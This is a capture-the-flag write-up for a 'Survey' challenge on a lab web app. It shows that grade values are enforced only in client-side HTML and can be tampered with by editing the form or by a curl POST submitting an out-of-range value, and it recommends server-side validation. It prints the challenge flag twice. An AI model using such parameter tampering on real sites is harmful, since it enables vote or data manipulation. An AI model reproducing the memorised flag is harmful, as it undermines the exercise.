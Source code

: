 # <span style="text-decoration: underline">Survey</span>

- Tags : `html`, `source code`, `form` , `POST`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : green">Easy</span>

___

## <span style="text-decoration: underline">problem</span>

When we go to the `SURVEY` tab we see the following content

> ![survey index](/.resources/images/survey_index.png)

Here we can see a table where user can select a number between 1-10 by clicking the value on a `pick list` in the **Grade** column. When we select a value from the `pick list` the page get refreshed and nothing happens. When we see the source code of the table we can see the following

```html
<table width="50%" style="margin-left: auto; margin-right: auto;">
<caption><p>Make your choice</caption><br /><br /></p>
	<tbody>
		<tr bgcolor="Gray">
			<td align="center">Grade</td>
			<td align="center">Average</td>
			<td align="center">Subject</td>
			<td align="center">Nb of vote(<em>indicative</em>)</td>
		</tr>
			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="2">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
4214.23			</td>
			<td align="center">

Laurie			</td>
			<td align="center">
4260			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="3">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
5.23529			</td>
			<td align="center">

Mathieu			</td>
			<td align="center">
17			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="4">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
8.64707			</td>
			<td align="center">

Thor			</td>
			<td align="center">
17			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="5">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
9.1			</td>
			<td align="center">

Ly			</td>
			<td align="center">
666			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="6">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
6.969			</td>
			<td align="center">

Zaz			</td>
			<td align="center">
69			</td>
		</tr>
</table>
```

Here we can see two interesting things:

01. Each **Grade**  input is inside a form that does a `POST` request to the current page
02. When we select a value a `java script` function execute the `submit` function thus a submot request is sent.

!> The `hidden` input is not really importent for us.

## <span style="text-decoration: underline">Solution</span>

### Changing the value of the input field

Just like for the [recover](/recover?id=changing-the-value-of-the-input-field) challenge we can change the `html` `value` of one onf the `pick list` element (the list from 1-10) and select that value as our **Grade**

> ![survey modified value](/.resources/images/survey_index_modified_value.png)

And we get the following result

> ![survey flag](/.resources/images/survey_flag.png)

### Using [`Curl`](https://curl.se/)

Ofcorse the same request could be sent using `Curl` from our terminal and it would look like this

```bash
$ curl -s -d 'sujet=2&valeur=11' -X POST 'http://192.168.1.23/?page=survey'  | grep flag 
<center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
```

# <span style="text-decoration: underline">How to avoid the problem</span>

One way to avoid this problem would be a serverside checking of the data as we can control what we are sending.

# <span style="text-decoration: underline">Flag</span>

```text
03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
```
